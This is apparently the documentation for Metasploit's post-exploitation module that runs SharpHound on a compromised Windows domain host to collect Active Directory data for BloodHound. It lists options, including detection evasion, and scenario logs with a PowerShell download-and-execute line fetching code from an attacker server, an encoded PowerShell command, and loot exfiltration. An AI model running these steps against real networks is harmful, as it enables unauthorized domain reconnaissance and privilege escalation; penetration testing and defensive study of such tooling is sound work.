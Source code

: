 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilege elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

### Method

Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the `sharphound.exe`
file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

### CollectionMethode

The collection method to use. Accepted values are `Default`, `Group`,
`LocalAdmin`, `RDP`, `DCOM`, `GPOLocalGroup`, `Session`, `ObjectProps`, `ComputerOnly`, `LoggedOn`, `Trusts`, `ACL`, `Container`,
`DcOnly`, `All`.  The default method is `Default`.

### Domain

Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

### Stealth

Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

### ExcludeDomainControllers

Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

### DomainController

Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

### LdapPort

Override the port used to connect to LDAP.

### SecureLdap

Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

### DisableKerbSigning

Disables Kerberos Signing on requests. The default value is `false`.


### OutputFolder

Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

### EncryptZip

If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

### NoSaveCache

If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

### Windows 2012 Domain Controller, Download method

```
msf post(windows/gather/bloodhound) > run

[*] Using URL: http://1.1.1.1:8080/127mPhBr3dZ
[*] Loading BloodHound with: IEX (new-object net.webclient).downloadstring('http://1.1.1.1:8080/127mPhBr3dZ')
[*] Invoking BloodHound with: Invoke-BloodHound -OutputDirectory "C:\Users\ADMINI~1\AppData\Local\Temp" -ZipFileName isid -MemCache -ZipPassword ilvtbfgkcmwszdxjn 
[*] 2022-11-13T13:45:21.0298446-05:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
[*] 2022-11-13T13:45:21.4198615-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:21.4666492-05:00|INFORMATION|Initializing SharpHound at 1:45 PM on 11/13/2022
[*] 2022-11-13T13:45:22.2154647-05:00|INFORMATION|Loaded cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:45:22.2310827-05:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:22.6054639-05:00|INFORMATION|Beginning LDAP search for hoodiecola.com
[*] 2022-11-13T13:45:22.7458626-05:00|INFORMATION|Producer has finished, closing LDAP channel
[*] 2022-11-13T13:45:22.7614632-05:00|INFORMATION|LDAP channel closed, waiting for consumers
[*] 2022-11-13T13:45:53.5431310-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 87 MB RAM
[*] 2022-11-13T13:46:06.1354911-05:00|INFORMATION|Consumers finished, closing output channel
[*] 2022-11-13T13:46:06.2134955-05:00|INFORMATION|Output channel closed, waiting for output task to complete
[*] Closing writers
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Status: 100 objects finished (+100 2.325581)/s -- Using 89 MB RAM
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Enumeration finished in 00:00:43.9260652
[*] 2022-11-13T13:46:06.7283096-05:00|INFORMATION|Saving cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:46:06.7439000-05:00|INFORMATION|SharpHound Enumeration Completed at 1:46 PM on 11/13/2022! Happy Graphing!
[+] Downloaded C:\Users\ADMINI~1\AppData\Local\Temp\20221113134605_isid.zip: /root/.msf4/loot/20221113141655_default_2.2.2.2_windows.ad.blood_027677.zip
[+] Zip password: ilvtbfgkcmwszdxjn
[*] Post module execution completed
```

### Windows 10 non-AD host, Windows Server 2012 AD, Disk Method

```
meterpreter > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf post(windows/gather/bloodhound) > set method disk
method => disk
msf post(windows/gather/bloodhound) > exploit

[*] Uploading sharphound.exe as C:\Users\user\Desktop\qehojlwml.exe
[*] Loading BloodHound with: . C:\Users\user\Desktop\qehojlwml.exe --outputdirectory "C:\Users\user\AppData\Local\Temp" --zipfilename eiqxerh --encryptzip --nosavecache 
[+] EXECUTING:
powershell.exe -EncodedCommand LgAgAEMAOgBcAFUAcwBlAHIAcwBcAHQAYQByAGEAXABEAGUAcwBrAHQAbwBwAFwAcQBlAGgAbwBqAGwAdwBtAGwALgBlAHgAZQAgAC0ALQBvAHUAdABwAHUAdABkAGkAcgBlAGMAdABvAHIAeQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAdABhAHIAYQBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwACIAIAAtAC0AegBpAHAAZgBpAGwAZQBuAGEAbQBlACAAZQBpAHEAeABlAHIAaAAgAC0ALQBlAG4AYwByAHkAcAB0AHoAaQBwACAALQAtAG4AbwBzAGEAdgBlAGMAYQBjAGgAZQAgADsAIAA= -InputFormat None
[*] ----------------------------------------------
[*] Initializing SharpHound at 4:19 PM on 6/3/2020
[*] ----------------------------------------------
[*] 
[*] Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[*] 
[*] [+] Creating Schema map for domain HOODIECOLA.COM using path CN=Schema,CN=Configuration,DC=HOODIECOLA,DC=COM
[*] [+] Cache File not Found: 0 Objects in cache
[*] 
[*] [+] Pre-populating Domain Controller SIDS
[*] Status: 0 objects finished (+0) -- Using 19 MB RAM
[*] Status: 63 objects finished (+63 21)/s -- Using 26 MB RAM
[*] Enumeration finished in 00:00:03.3219377
[*] Compressing data to C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip
[*] Password for Zip file is QEqUpTtU0v. Unzip files manually to upload to interface
[*] 
[*] SharpHound Enumeration Completed at 4:19 PM on 6/3/2020! Happy Graphing!
[*] 
[+] Downloaded C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip: /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip
[+] Zip password: QEqUpTtU0v
[*] Deleting C:\Users\user\Desktop\qehojlwml.exe
[*] Post module execution completed

msf post(windows/gather/bloodhound) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type                     Data
 ----                     ----          -------  ----  --------  ----                     ----
 2020-06-03 23:27:05 UTC  2.2.2.2                           Sharphound Zip Password  "Bloodhound/Sharphound loot /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip password is QEqUpTtU0v"

```
